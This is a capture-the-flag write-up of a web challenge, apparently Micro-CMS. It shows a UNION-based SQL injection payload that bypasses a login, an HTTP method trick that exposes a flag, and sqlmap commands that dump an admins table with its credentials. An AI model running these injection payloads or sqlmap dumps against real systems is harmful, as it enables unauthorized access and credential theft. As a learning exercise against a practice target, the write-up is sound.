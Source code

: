 # FLAG 0
Finding this flag started with me **testing all inputs with special characters** for example the single quote
When entering the single quote into the username field of the login page a error will be displayed on the users screen

```py
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```
From this error you get two useful pieces of information **the type of DB and the query**
To simplify the query we will assume the input is called "USERINPUT" this isn't important to finding the flag just so I can show how the query works.

```sql
SELECT password
FROM admins
WHERE username='USERINPUT'
```
Now that we know the query we can **exploit it**.

I was unsure of how to exploit this query until i got the hint 
```
Getting admin access might require a more perfect union
```
This told me that it will be a SQL injection using a union. Creating the next part of the query took me some time researching mostly watching videos such as computerphiles two SQL injection videos.
After researching it occured to me that when using the single quote I am ending the current query and am now in control of what happens next.
```sql
'UNION SELECT 'pass' AS password from admins where '1' = '1 
```
When you enter this into the username field it will set the password to 123 and it has to be correct due to the '1' = '1 which always returns true
The full query looks like this.

```SQL
SELECT password
FROM admins
WHERE username='USERINPUT''UNION SELECT 'pass' AS password from admins where '1' = '1 
```
Once entered you will be greeted by the logged in screen and a private page with the flag.

# FLAG 1
Finding this flag took some time. I first got the hint number 1
```
What actions could you perform as a regular user on the last level, which you can't now?
```
This pointed me towards either the edit page or the create page after some failed attempts at exploiting either of these pages I took the second hint
```
Just because request fails with one method doesn't mean it will fail with a different method
``` 
This was obviously talking about the **QUEST METHODS**. POST , HEAD, GET , OPTIONS. 

Once I knew it had something to do with the METHOD I opened up firefoxes f12 networking page and edited and resend the requests. 

I started on the create page and first sent OPTIONS to see which METHOD could be used. After trying each of these METHODs nothing seemed to work so I moved to the edit page and tried there.

When the edit page is sent a REQUEST with the method POST it will give an error 400 or bad request. Once I saw it was a bad request I sent again after **removing** all the request headers to see what a blank POST request would yield.

It yielded a STATUS 200 and the flag in responce. 

Going back and testing this on the create page does not yield the same result and you will not get the flag.

# FLAG 2
The final flag started with the hint 
```
Credentials are secret, flags are secret. Coincidence?
``` 
This made me think that either the username or password are the flag. 

I started to gather the information I know about the DB which is that it runs on MariaDB and that it uses atleast two columns called username and password.

Remembering something I had read there was a program called SQLMAP that could be used to map SQL databases. Unknowing about the tool I researched it and booted up my linux VM.

after trying to use the URL within SQLMAP like below 
```
SQLMAP -U http://35.227.24.107/c9c02a8fea/login
```
and coming up with no results i looked at the -hh of SQLMAP and found -r which would use a request file.

I knew that everytime you click login it made a request so I launched burpsuite and captured the request to see what it looked like.

```
POST /c9c02a8fea/login HTTP/1.1

Host: 35.227.24.107

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 19

Origin: http://35.227.24.107

Connection: close

Referer: http://35.227.24.107/c9c02a8fea/login

Upgrade-Insecure-Requests: 1



username=&password=
```
This shows that the column names are definately username and password so now it was time to use this request within SQLMAP.

```
sqlmap -r /home/ewan/Desktop/1.request --tables
``` 
This returned all the tables within the DB and the one that stood out as important was this one. 
```
Database: level2
[2 tables]
+----------------------------------------------------+
| admins                                             |
| pages                                              |
+----------------------------------------------------+
```
The next step was gaining access to the information within these tables specifically the admins table.
After some testing with different commands I found the --dump command and attempted to use it on the table 'admins'. 
```
sqlmap -r /home/ewan/Desktop/1.request -T admins --dump
```
This returned 
```
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | malissa  | herman   |
+----+----------+----------+

```
So now we have the username and password for the website. Once entered on the page you get the final flag.

# Conclusion
This was a challenge to complete but with some research it was figured out. I look forward to the next web based CTF I do.

